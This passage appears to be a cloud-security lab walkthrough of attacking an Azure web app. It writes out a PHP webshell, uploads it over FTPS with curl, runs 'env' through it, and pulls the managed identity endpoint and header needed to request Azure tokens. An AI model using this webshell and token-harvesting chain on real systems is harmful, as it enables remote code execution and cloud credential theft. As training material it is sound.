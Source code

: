 We can try to upload a PHP webshell like the one below that gives us command execution on the web app.
```
<?php echo system($_GET["cmd"]); ?>
```
```
└─PS> curl -T shell.php --ssl ftps://waws-prod-bn1-159.ftp.azurewebsites.windows.net/site/wwwroot/portal/shell.php --user '$megabigtech-hr-portal'
Warning: --ssl is an insecure option, consider --ssl-reqd instead
Enter host password for user '$megabigtech-hr-portal':
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    36    0     0  100    36      0      4  0:00:09  0:00:08  0:00:01     0
```

![](passwordless-credentials-for-access-and-escalation-2.png)

Distributed cloud resources often have the need to interact with other resources in Azure and can be configured with a user or system-managed identity that allows them to authenticate. An API endpoint is accessible on a private (non-internet routable) IP address that allows the application to retrieve a token for the managed identity and interact with Azure. The API endpoint URL is like the example below, with the last two octets of the IP address rotating periodically. Since we know that this is Linux, let's retrieve environment variables
```
http://169.254.129.5:8081/msi/token
```
```
└─$ curl --silent 'https://megabigtech-hr-portal.azurewebsites.net/portal/shell.php?cmd=env'   
WEBSITE_DEFAULT_HOSTNAME=megabigtech-hr-portal.azurewebsites.net
WEBSITES_ENABLE_APP_SERVICE_STORAGE=true
PHP_EXTRA_CONFIGURE_ARGS=--enable-fpm --with-fpm-user=www-data --with-fpm-group=www-data --disable-cgi ac_cv_func_mmap=no
LANGUAGE=C.UTF-8
WEBJOB_HOME=/home
FUNCTIONS_RUNTIME_SCALE_MONITORING_ENABLED=0
USER=www-data
APPSETTING_WEBSITE_DEFAULT_HOSTNAME=megabigtech-hr-portal.azurewebsites.net
REGION_NAME=eastus2
PLATFORM_VERSION=105.0.7.111
HOSTNAME=7896d62b7aea
PHP_INI_DIR=/usr/local/etc/php
WEBSITE_INSTANCE_ID=99d74da325fb16af8e7626755ad77ed17111f16fb2cadf11bb6f1b64dd14ba76
APPSETTING_FUNCTIONS_RUNTIME_SCALE_MONITORING_ENABLED=0
APPSETTING_WEBSITES_ENABLE_APP_SERVICE_STORAGE=true
IDENTITY_HEADER=53f36c7c-66eb-4f42-ace3-e568fe465796
<SNIP>
IDENTITY_ENDPOINT=http://169.254.129.4:8081/msi/token
<SNIP>
```

We only need the following header and endpoint variablesto construct our request (existence of these variables confirms that a managed identity has been configured)
```
IDENTITY_HEADER=559e4333-f593-4735-8684-9742cc817930
IDENTITY_ENDPOINT=http://169.254.129.5:8081/msi/token
```
